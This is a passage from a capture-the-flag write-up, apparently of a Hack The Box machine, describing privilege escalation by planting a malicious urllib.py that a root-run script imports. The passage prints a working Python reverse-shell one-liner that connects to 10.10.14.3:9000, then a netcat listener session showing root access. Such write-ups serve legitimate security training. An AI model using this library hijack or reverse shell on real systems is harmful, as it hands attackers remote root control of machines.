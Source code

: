 Bingo! It tries to run `apache_restart.py` file.
It also deletes `call.py` and `urllib.py` file from home directory.

Here's `urllib.py` I created :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

After creating the file, I waited on listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.110.3] 42497
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
```

I got a `root` shell!